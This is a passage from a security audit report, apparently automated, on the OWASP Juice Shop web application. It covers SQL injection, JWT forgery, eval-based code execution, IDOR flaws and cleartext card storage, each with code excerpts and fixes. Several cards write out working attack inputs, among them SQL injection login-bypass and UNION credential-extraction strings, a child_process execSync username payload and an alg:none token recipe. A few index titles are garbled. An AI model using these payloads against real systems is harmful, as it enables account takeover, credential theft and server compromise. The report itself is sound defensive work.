Restoring layered defense requires closing four control boundaries in sequence: (1) parameterize the login and search SQL queries so injection cannot bypass the authentication check; (2) rotate the RSA private key out of source code and inject it from a secret store at runtime, then pin `express-jwt` to an algorithm allowlist of `RS256` only; (3) replace `MD5` password hashing with bcrypt or Argon2id and encrypt the TOTP secret and payment card columns at rest; (4) add a `permissions: {}` block to all GitHub Actions workflows and pin third-party actions to commit SHAs. These four repairs address the dominant attack paths - authentication bypass, session forgery, credential recovery, and CI supply-chain injection - and restore meaningful separation between the control boundaries that currently collapse into a single `lib/insecurity.ts` file.

<!-- enriched:standard -->

---

## 8. Findings Register

Findings are grouped by severity (Critical → High → Medium → Low); within a tier they are ordered by attack vektor (Repo-Read → Internet-Anon → Internet-User → Victim-Required). Each finding is a card with the same fixed fields, in order: **Severity · Component · Location** → **Issue** → **Root cause** → **Evidence** → **Fix** → **Classification** (with external CWE / OWASP links).

**Risk Distribution:** 🔴 Critical: 29 · 🟠 High: 47 · 🟡 Medium: 13 · 🟢 Low: 3 · **Total findings: 92**
**STRIDE Coverage:** Spoofing: 8 · Tampering: 33 · Repudiation: 8 · Information Disclosure: 21 · Denial of Service: 7 · Elevation of Privilege: 15

**Findings index:**<br/>🟠 [F-001](#f-001) — Insecure Storage of Sensitive Information…<br/>🔴 [F-002](#f-002) — SQL Injection in login query (`routes/login.ts:34`)<br/>🔴 [F-003](#f-003) — Hardcoded RSA private key enables arbitrary JWT forgery…<br/>🔴 [F-004](#f-004) — Insecure JWT Verification (`lib/insecurity.ts:54`)<br/>🔴 [F-005](#f-005) — OAuth-Derived Predictable Password (`oauth.component.ts:30`)<br/>🔴 [F-006](#f-006) — SQL Injection in Product Search Route (`routes/search.ts:23`)<br/>🔴 [F-007](#f-007) — Remote Code Execution (`routes/userProfile.ts:62`)<br/>🔴 [F-008](#f-008) — Insecure Direct Object Reference (`routes/address.ts:11`)<br/>🔴 [F-009](#f-009) — Insecure Direct Object Reference (`routes/address.ts:18`)<br/>🔴 [F-010](#f-010) — Insecure Direct Object Reference (`routes/address.ts:29`)<br/>🔴 [F-011](#f-011) — Insecure Direct Object Reference (`routes/dataExport.ts:26`)<br/>🔴 [F-012](#f-012) — Insecure Direct Object Reference (`routes/deluxe.ts:25`)<br/>🔴 [F-013](#f-013) — Insecure Direct Object Reference (`routes/deluxe.ts:30`)<br/>🔴 [F-014](#f-014) — Insecure Direct Object Reference (`routes/deluxe.ts:35`)<br/>🔴 [F-015](#f-015) — Insecure Direct Object Reference (`routes/memory.ts:15`)<br/>🔴 [F-016](#f-016) — Insecure Direct Object Reference (`routes/order.ts:142`)<br/>🔴 [F-017](#f-017) — Insecure Direct Object Reference (`routes/order.ts:144`)<br/>🔴 [F-018](#f-018) — Insecure Direct Object Reference (`routes/order.ts:151`)<br/>🔴 [F-019](#f-019) — Insecure Direct Object Reference (`routes/payment.ts:21`)<br/>🔴 [F-020](#f-020) — Insecure Direct Object Reference (`routes/payment.ts:41`)<br/>🔴 [F-021](#f-021) — Insecure Direct Object Reference (`routes/payment.ts:70`)<br/>🔴 [F-022](#f-022) — Insecure Direct Object Reference (`routes/wallet.ts:12`)<br/>🔴 [F-023](#f-023) — Insecure Direct Object Reference (`routes/wallet.ts:24`)<br/>🔴 [F-024](#f-024) — Insecure Direct Object Reference (`routes/wallet.ts:27`)<br/>🔴 [F-025](#f-025) — Mass-assignment of role field enables privilege escalation…<br/>🔴 [F-026](#f-026) — Payment card number stored as unencrypted INTEGER (`models/card.ts:39`)<br/>🔴 [F-027](#f-027) — MD5 password hashing without salt (`models/user.ts:77`)<br/>🔴 [F-028](#f-028) — VM Sandbox Escape (`routes/b2bOrder.ts:23`)<br/>🔴 [F-029](#f-029) — Mass Assignment to role Field in User Registration (`server.ts:419`)<br/>🔴 [F-030](#f-030) — Server-Side Template Injection (`routes/userProfile.ts:62`)<br/>🟠 [F-031](#f-031) — Rate Limit Bypass (`server.ts:346`)<br/>🟠 [F-032](#f-032) — Weak Password Hashing (`models/securityAnswer.ts:46`)<br/>🟠 [F-033](#f-033) — OAuth Implicit Flow with No State Validation (`app.routing.ts:262`)<br/>🟠 [F-034](#f-034) — Unauthenticated WebSocket Channel (`registerWebsocketEvents.ts:24`)<br/>🟠 [F-035](#f-035) — Weak Password Recovery Mechanism (`routes/resetPassword.ts:41`)<br/>🟠 [F-036](#f-036) — MD5 password hashing enables offline credential recovery…<br/>🟠 [F-037](#f-037) — MD5 Password Hashing Without Salt (`lib/insecurity.ts:43`)<br/>🟠 [F-038](#f-038) — Insecure Direct Object Reference (`routes/basketItems.ts:68`)<br/>🟠 [F-039](#f-039) — Insecure Direct Object Reference (`routes/delivery.ts:34`)<br/>🟠 [F-040](#f-040) — Insecure Direct Object Reference (`routes/orderHistory.ts:36`)<br/>🟠 [F-041](#f-041) — Root-Privilege Postinstall Execution in Docker Build — Dockerfile:5<br/>🟠 [F-042](#f-042) — Lockfile Disabled Enabling Dependency Confusion — .npmrc:1<br/>🟠 [F-043](#f-043) — Mutable Action Tag Supply Chain Injection (`codeql-analysis.yml:23`)<br/>🟠 [F-044](#f-044) — Stored XSS (`about.component.ts:119`)<br/>🟠 [F-045](#f-045) — Stored XSS (`last-login-ip.component.ts:39`)<br/>🟠 [F-046](#f-046) — Log Injection (`routes/saveLoginIp.ts:18`)<br/>🟠 [F-047](#f-047) — Insufficient Security Logging (`routes/login.ts:18`)<br/>🟠 [F-048](#f-048) — Insufficient Security Logging (`server.ts:338`)<br/>🟠 [F-049](#f-049) — No Audit Logging for File Upload Events (`routes/fileUpload.ts:27`)<br/>🟠 [F-050](#f-050) — JWT token cookie set without HttpOnly or Secure flags…<br/>🟠 [F-051](#f-051) — Sensitive Information Exposure (`server.ts:208`)<br/>🟠 [F-052](#f-052) — Unauthenticated Access Log and FTP Directory Exposed to Internet…<br/>🟠 [F-053](#f-053) — Use of Hard-coded Cryptographic Key (`lib/insecurity.ts:44`)<br/>🟠 [F-054](#f-054) — Incorrect Permission Assignment (`codeql-analysis.yml:1`)<br/>🟠 [F-055](#f-055) — Third-party GitHub Actions not pinned to commit SHA…<br/>🟠 [F-056](#f-056) — Docker base image not digest-pinned — Dockerfile:1<br/>🟠 [F-057](#f-057) — On not committed on absent (`package-lock.json`)<br/>🟠 [F-058](#f-058) — TOTP secret stored in plaintext (`models/user.ts:113`)<br/>🟠 [F-059](#f-059) — XXE File Read (`routes/fileUpload.ts:83`)<br/>🟠 [F-060](#f-060) — CTF Flag Broadcast to All Connected Sockets (`lib/challengeUtils.ts:71`)<br/>🟠 [F-061](#f-061) — Missing Anti-Automation / Rate Limiting (`server.ts:594`)<br/>🟠 [F-062](#f-062) — Unauthenticated CPU Exhaustion (`routes/b2bOrder.ts:23`)<br/>🟠 [F-063](#f-063) — No Rate Limiting on Login Endpoint Enables Credential Stuffing…<br/>🟠 [F-064](#f-064) — Unauthenticated Parser Amplification DoS (`routes/fileUpload.ts:83`)<br/>🟠 [F-065](#f-065) — Uncontrolled Resource Consumption (`registerWebsocketEvents.ts:20`)<br/>🟠 [F-066](#f-066) — JWT role claim elevation (`lib/insecurity.ts:54`)<br/>🟠 [F-067](#f-067) — Open Redirect Allowlist Bypass (`lib/insecurity.ts:138`)<br/>🟠 [F-068](#f-068) — Sensitive Routes Registered Without Authentication Middleware…<br/>🟠 [F-069](#f-069) — Authorization Check Disabled on Product Update Route (`server.ts:369`)<br/>🟠 [F-070](#f-070) — Server-Side Request Forgery (`routes/profileImageUrlUpload.ts:24`)<br/>🟠 [F-071](#f-071) — GITHUB_TOKEN Write-All Permission on 10 of 13 Workflows (`ci.yml:1`)<br/>🟠 [F-072](#f-072) — Insecure Direct Object Reference (`models/relations.ts:22`)<br/>🟠 [F-073](#f-073) — ZIP Path Traversal (`routes/fileUpload.ts:44`)<br/>🟠 [F-074](#f-074) — Missing Authentication on `/file-upload` Endpoint (`server.ts:309`)<br/>🟠 [F-075](#f-075) — Unsafe YAML Deserialization (`routes/fileUpload.ts:117`)<br/>🟠 [F-076](#f-076) — Client-Side Enforcement of Server-Side Security (`app.guard.ts:52`)<br/>🟡 [F-077](#f-077) — Archived Action with Mutable Tag in Release Workflow (`release.yml:66`)<br/>🟡 [F-078](#f-078) — DOM-based XSS (`index.ts:126`)<br/>🟡 [F-079](#f-079) — Missing Audit Logging for B2B Order Submissions (`routes/b2bOrder.ts:24`)<br/>🟡 [F-080](#f-080) — Released Docker Images Lack SLSA Provenance Attestation (`release.yml:50`)<br/>🟡 [F-081](#f-081) — No audit log table for security-relevant mutations (`models/index.ts:30`)<br/>🟡 [F-082](#f-082) — Raw VM Error Propagation to API Response (`routes/b2bOrder.ts:33`)<br/>🟡 [F-083](#f-083) — Improper Verification of Cryptographic Signature (`release.yml:1`)<br/>🟡 [F-084](#f-084) — Untrusted npm Install/Postinstall Scripts Enabled — Dockerfile:5<br/>🟡 [F-085](#f-085) — Long-Lived Administrative Secret in Workflow Environment…<br/>🟡 [F-086](#f-086) — Dependabot Ecosystem Coverage Incomplete (.github/dependabot.yml)<br/>🟡 [F-087](#f-087) — No query timeout in Sequelize SQLite configuration (`models/index.ts:30`)<br/>🟡 [F-088](#f-088) — Client-Side Data Export Rate Limit Bypass (`data-export.component.ts:48`)<br/>🟡 [F-089](#f-089) — Improper Access Control (`pr-compliance.yml:4`)<br/>🟢 [F-090](#f-090) — No Actor Attribution on Socket Event Handlers…<br/>🟢 [F-091](#f-091) — Missing HEALTHCHECK instruction — Dockerfile:1<br/>🟢 [F-092](#f-092) — No Renovate config detected on absent (`renovate.json`)

<a id="th-01"></a><a id="th-03"></a><a id="th-05"></a><a id="th-06"></a><a id="th-10"></a><a id="th-02"></a><a id="th-04"></a><a id="th-08"></a><a id="th-11"></a><a id="th-12"></a><a id="th-13"></a><a id="th-14"></a><a id="th-15"></a><a id="th-16"></a><a id="th-17"></a><a id="th-18"></a>

### 🔴 Critical (29)

<a id="t-003"></a><a id="f-003"></a>
#### F-003 · Hardcoded Cryptographic Key

**Severity:** 🔴 Critical - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-07](#c-07) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:23`

**Issue:** The 1024-bit RSA private key is embedded as a string literal and committed to a public GitHub repository. Any actor who reads the source - including automated secret scanners, forks, or cached git history - possesses the private key.

Using this key they can call `jwt.sign()` with any payload (e.g. { role: 'admin', email: 'attacker@`evil.com`' }) and algorithm `RS256`, producing a token that passes express-jwt validation at every `isAuthorized()` middleware. This grants attacker-chosen role and identity to all protected REST endpoints.

Attacker signs a JWT with `role:admin` for any user ID, gaining full administrative access to the application.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - The privateKey constant at `lib/insecurity.ts:23` contains a complete PKCS#1 RSA private key as a hardcoded string literal inside the exported module.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ❶ [M-012](#m-012) — Move cryptographic keys to a managed secret store

**Classification:** OAuth / OIDC Misconfiguration · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-026"></a><a id="f-026"></a>
#### F-026 · Cleartext Storage of Sensitive Data

**Severity:** 🔴 Critical - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-03](#c-03) - Data Persistence Layer  ·  **Location:** `models/card.ts:39`

**Issue:** The `Card` model at `models/card.ts:39` declares `cardNum` as `DataTypes.INTEGER`. The full 16-digit PAN is stored in the SQLite database without any encryption, masking, or tokenization.

A read of the `Cards` table - via SQLi, a compromised admin session querying `/api/Cards`, or direct access to the SQLite file at `data/juiceshop.sqlite` - exposes complete card numbers for all users. PCI-DSS requirement 3.4 mandates that PANs be rendered unreadable anywhere they are stored (truncation, tokenization, or strong encryption).

Full payment card numbers for all users are readable by anyone with database read access, creating a direct PCI-DSS scope violation and enabling card fraud.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `Card.cardNum` at `models/card.ts:39` is typed `DataTypes.INTEGER` with no encryption transform or masking setter - the full PAN is persisted in cleartext.

```typescript
// models/card.ts:39
        autoIncrement: true
      },
      fullName: DataTypes.STRING,
      cardNum: {
        type: DataTypes.INTEGER,
        validate: {
          isInt: true,
```

**Fix:** ❷ [M-019](#m-019) — Stop storing sensitive data in cleartext

**Classification:** Cryptographic Failures · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-002"></a><a id="f-002"></a>
#### F-002 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-07](#c-07) - Authentication & Session Surface  ·  **Location:** `routes/login.ts:34`

**Issue:** An unauthenticated attacker POSTs to `/rest/user/login` with a crafted email value such as `' OR 1=1--`. The raw SQL query concatenates `req.body.email` directly into the SELECT statement: `SELECT * FROM Users WHERE email = '${req.body.email}'`.

The injected payload short-circuits the WHERE clause, returning the first user row (typically admin). No rate limiting exists on this endpoint, so the attacker can probe injection payloads at arbitrary speed and authenticate as any user including administrator without knowing their password.

Attacker authenticates as any user including admin, receiving a signed 6-hour JWT granting full account access.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - Raw string interpolation of `req.body.email` into a Sequelize `models.sequelize.query()` call constructs a SQL statement with no parameter binding.

```typescript
// routes/login.ts:34

  return (req: Request, res: Response, next: NextFunction) => {
    verifyPreLoginChallenges(req) // vuln-code-snippet hide-line
    models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: tr
      .then((authenticatedUser) => { // vuln-code-snippet neutral-line loginAdminChallenge loginBenderChallenge loginJimChallenge
        const user = utils.queryResultToJson(authenticatedUser)
        if (user.data?.id && user.data.totpSecret !== '') {
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-011](#m-011) — Use parameterized database queries

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-004"></a><a id="f-004"></a>
#### F-004 · Improper Verification of Cryptographic Signature

**Severity:** 🔴 Critical - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-07](#c-07) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:54`

**Instances (7):** 🔴 `lib/insecurity.ts:54`, 🟠 `routes/b2bOrder.ts:16`, 🟠 `lib/insecurity.ts:55`, 🟠 `lib/insecurity.ts:58`, 🔴 `lib/insecurity.ts:191`, 🔴 `routes/chatbot.ts:248`, 🔴 `routes/verify.ts:117`

**Issue:** express-jwt version 0.1.3 (`package.json`) and jsonwebtoken version 0.4.0 do not enforce algorithm restrictions. An attacker constructs a JWT with header {"alg":"none"}, an arbitrary payload ({"data":{"role":"admin","id":1}}), and an empty signature.

`isAuthorized()` passes this token to express-jwt without specifying an algorithms allowlist, so the library accepts the unsigned token as valid. the MFA second-factor tmpToken is verified at `routes/2fa.ts:26` via `security.verify()` which calls `jws.verify()` - if `jws.verify()` with algorithm none also passes, the attacker skips the MFA step entirely.

Attacker forges a zero-signature JWT for any user/role, bypassing all `isAuthorized()` guards and optionally the MFA second factor.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - expressJwt({ secret: publicKey }) call at `lib/insecurity.ts:54` omits the algorithms field; express-jwt 0.1.3 accepts `alg:none` by default.

```typescript
// lib/insecurity.ts:54
  return str
}

export const isAuthorized = () => expressJwt(({ secret: publicKey }) as any)
export const denyAll = () => expressJwt({ secret: '' + Math.random() } as any)
export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
```

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❶ [M-013](#m-013) — Enforce JWT signature and algorithm verification

**Classification:** OAuth / OIDC Misconfiguration · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-005"></a><a id="f-005"></a>
#### F-005 · OAuth-Derived Predictable Password

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Angular 20 SPA Frontend  ·  **Location:** `frontend/src/app/oauth/oauth.component.ts:30`

**Issue:** When a user authenticates via Google OAuth, `OAuthComponent` at line 30 computes a deterministic password: `btoa(profile.email.split('').reverse().join(''))`. This password is then used to register or log in the user at line 31 and 46.

The algorithm is trivially computable by any attacker who knows the target's email address. An attacker can call `POST /rest/user/login` directly with `email=victim@example.com` and `password=btoa('moc.elpmaxe@mitciv')` to authenticate as the victim without involving OAuth at all.

Any attacker who knows a victim's email can authenticate as that user (including admins) by computing the deterministic password and calling the login endpoint directly.

**Evidence:** ✓ verified - `oauth.component.ts:30` uses `btoa(profile.email.split('').reverse().join(''))` as the user's password - a formula publicly derivable from any known email address.

```typescript
// frontend/src/app/oauth/oauth.component.ts:30
  ngOnInit (): void {
    this.userService.oauthLogin(this.parseRedirectUrlParams().access_token).subscribe({
      next: (profile: any) => {
        const password = btoa(profile.email.split('').reverse().join(''))
        this.userService.save({ email: profile.email, password, passwordRepeat: password }).subscribe({
          next: () => {
            this.login(profile)
```

**Fix:** ❷ [M-014](#m-014) — Eliminate derived passwords; use server-side OAuth token exchange without a password proxy

**Classification:** OAuth / OIDC Misconfiguration · [CWE-522](https://cwe.mitre.org/data/definitions/522.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-006"></a><a id="f-006"></a>
#### F-006 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/search.ts:23`

**Issue:** `routes/search.ts:23` interpolates `req.query.q` directly into a raw SQL LIKE query: ``SELECT * FROM Products WHERE ((name LIKE '%\${criteria}%' OR description LIKE '%\${criteria}%') AND deletedAt IS NULL)``. The only guard is a 200-character length truncation (`criteria.substring(0, 200)`).

A UNION-SELECT payload such as `%')) UNION SELECT email,password,1,1,1,1,1,1,1 FROM Users--` extracts all user credentials. The endpoint is publicly accessible with no authentication requirement, widening the attacker population to anonymous internet users.

Unauthenticated extraction of all user emails, `MD5` password hashes, and the full database schema via UNION-based SQL injection.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `req.query.q` flows unescaped through `criteria` into a raw `sequelize.query()` LIKE clause at `routes/search.ts:23` without parameterized binding.

```typescript
// routes/search.ts:23
  return (req: Request, res: Response, next: NextFunction) => {
    let criteria: any = req.query.q === 'undefined' ? '' : req.query.q ?? ''
    criteria = (criteria.length <= 200) ? criteria : criteria.substring(0, 200)
    models.sequelize.query(`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`) // vuln-code-snippet vuln-line unionSql
      .then(([products]: any) => {
        const dataString = JSON.stringify(products)
        if (challengeUtils.notSolved(challenges.unionSqlInjectionChallenge)) { // vuln-code-snippet hide-start
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-015](#m-015) — Use parameterized database queries

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-007"></a><a id="f-007"></a>
#### F-007 · Code Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/userProfile.ts:62`

**Issue:** `routes/userProfile.ts:55-62` checks if the authenticated user's stored username matches `#{(.*)}` and, if so, calls `eval(code)` where `code` is the captured group from the regex match. An attacker updates their profile username to `#{require('child_process').execSync('id')}` and then visits `/profile`.

The server executes `require('child_process').execSync('id')` in the `Node.js` process context, returning the OS user identity. Full OS command execution is achievable - the attacker can exfiltrate environment variables, the SQLite database file, or establish a reverse shell.

Full server-side OS command execution as the `Node.js` process user, enabling exfiltration of all application secrets, database contents, and the ability to pivot to internal network resources.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - `eval(code)` at `routes/userProfile.ts:62` executes the regex-captured substring of `user.username`, which is attacker-controlled via the profile update API.

```typescript
// routes/userProfile.ts:62
        if (!code) {
          throw new Error('Username is null')
        }
        username = eval(code) // eslint-disable-line no-eval
      } catch (err) {
        username = '\\' + username
      }
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❶ [M-016](#m-016) — Remove server-side evaluation of untrusted input

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-008"></a><a id="f-008"></a>
#### F-008 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/address.ts:11`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/address.ts:11

export function getAddress () {
  return async (req: Request, res: Response) => {
    const addresses = await AddressModel.findAll({ where: { UserId: req.body.UserId } })
    res.status(200).json({ status: 'success', data: addresses })
  }
}
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-009"></a><a id="f-009"></a>
#### F-009 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/address.ts:18`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/address.ts:18

export function getAddressById () {
  return async (req: Request, res: Response) => {
    const address = await AddressModel.findOne({ where: { id: req.params.id, UserId: req.body.UserId } })
    if (address != null) {
      res.status(200).json({ status: 'success', data: address })
    } else {
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-010"></a><a id="f-010"></a>
#### F-010 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/address.ts:29`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/address.ts:29

export function delAddressById () {
  return async (req: Request, res: Response) => {
    const address = await AddressModel.destroy({ where: { id: req.params.id, UserId: req.body.UserId } })
    if (address) {
      res.status(200).json({ status: 'success', data: 'Address deleted successfully.' })
    } else {
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-011"></a><a id="f-011"></a>
#### F-011 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/dataExport.ts:26`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/dataExport.ts:26

        let memories, orders, reviews
        try {
          memories = await MemoryModel.findAll({ where: { UserId: req.body.UserId } })
        } catch (error) {
          next(error)
          return
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-016"></a><a id="f-016"></a>
#### F-016 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/order.ts:142`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/order.ts:142

          if (req.body.UserId) {
            if (req.body.orderDetails && req.body.orderDetails.paymentId === 'wallet') {
              const wallet = await WalletModel.findOne({ where: { UserId: req.body.UserId } })
              if ((wallet != null) && wallet.balance >= totalPrice) {
                await WalletModel.decrement({ balance: totalPrice }, { where: { UserId: req.body.UserId } })
              } else {
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-017"></a><a id="f-017"></a>
#### F-017 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/order.ts:144`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/order.ts:144
            if (req.body.orderDetails && req.body.orderDetails.paymentId === 'wallet') {
              const wallet = await WalletModel.findOne({ where: { UserId: req.body.UserId } })
              if ((wallet != null) && wallet.balance >= totalPrice) {
                await WalletModel.decrement({ balance: totalPrice }, { where: { UserId: req.body.UserId } })
              } else {
                next(new Error('Insufficient wallet balance.'))
                return
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-018"></a><a id="f-018"></a>
#### F-018 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/order.ts:151`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/order.ts:151
              }
            }
            try {
              await WalletModel.increment({ balance: totalPoints }, { where: { UserId: req.body.UserId } })
            } catch (error: unknown) {
              next(error)
              return
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-022"></a><a id="f-022"></a>
#### F-022 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/wallet.ts:12`

